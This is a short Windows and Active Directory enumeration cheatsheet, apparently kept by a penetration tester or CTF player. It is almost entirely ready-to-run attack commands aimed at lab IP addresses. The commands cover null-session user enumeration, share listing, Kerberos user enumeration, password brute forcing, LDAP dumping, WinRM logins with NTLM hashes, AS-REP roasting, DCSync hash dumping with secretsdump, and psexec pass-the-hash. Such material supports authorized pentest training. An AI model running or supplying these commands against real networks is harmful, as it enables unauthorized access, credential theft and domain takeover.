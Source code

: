 Windows Enum Cheatsheet
=======================
----------------------
(work in progress)

## enum users
```
rpcclient -U '' 10.10.1.2
enumdomusers	# search for users
querydispinfo	# anything in description field
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.doe     Name: Adrian Doe   Desc: (null)
queryuser 0x464 # see more info
```
Get only usernames from enumdomusers:
```
cat file | awk -F\[ '{print $2}' | awk -F\] '{print $1}' > users.txt
```

## enum shares
With the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
```
crackmapexec smb 10.10.1.2 --shares
crackmapexec smb 10.10.1.2 -u '' -p '' --shares
crackmapexec smb 10.10.1.2 -u '' --shares

smbclient -L 10.10.1.2
smbclient -U '' -L 10.10.1.2

smbmap -H 10.10.1.2 -u '' -p ''
```

## check valid users
https://github.com/ropnop/kerbrute
```
./kerbrute userenum --dc 10.10.1.2 --d domainname.local users.txt 
```

## brute force
With the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
Get the password policy:
```
crackmapexec smb 10.10.1.2 --pass-pol
```
Check the accountlockout option before you start a brute force. Also you can check the min length etc.
```
crackmapexec smb 10.10.1.2 -u users.txt -p password.txt 
```
Make sure you update to the latest version if you want to use this:
```
cme smb 10.10.10.182 -u username -p password -M spider_plus
```
This crawls through every share we have access to and returns it in json.

## mount
```
mkdir /mnt/data
mount -t cifs -o 'user=username,password=password' //10.10.1.2/sharename /mnt/sharename
```

## ldap
```
ldapsearch -x -h 10.10.1.2 -s base namingcontexts
```

Query domain and dump ldap:
```
ldapsearch -x -h 10.10.10.182 -s sub -b 'DC=example,DC=local' > ldapdump
```
Grab interesting unique things:
```
cat ldapdump | awk '{print s$1}' | sort | uniq -c| sort -nr
```
Get rid of base64:
```
cat ldapdump | awk '{print s$1}' | sort | uniq -c| sort -nr | grep : 
```
If you find anything interesting search for it in the dump

## gaining access
Check
With the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
```
cme winrm 10.10.1.2 -u username -p password
cme winrm 10.10.1.2 -u username -H ntlmhash
```
Evil-winrm: (when it's not installed use this, otherwise it's just 'evil-winrm -i ... etc')
```
ruby evil-winrm.rb -i 10.10.1.2 -u username -p password
ruby evil-winrm.rb -i 10.10.1.2 -u username -H ntlmhash

```
## impacket
### GetNPUsers.py
Queries target domain for users with 'Do not require Kerberos pre auth' set and export the TGTs for cracking
```
GetNPUsers.py domainname.local/ -usersfile users.txt -format john
```
### secretsdump.py
Let the domain think you are another DC. In order to sync I need all the password hashes. So with the right persmissions you'll get some hashes.
```
secretsdump.py domainname.local/username@10.10.2.1
```

### pcexec.py
Format for hash is LMHASH:NTHASH, but you can use the NTLM hash twice because windows doesn't really use LMHASH
```
psecex.py domainname.local/username@10.10.2.1 -hashes NTLM:NTLM



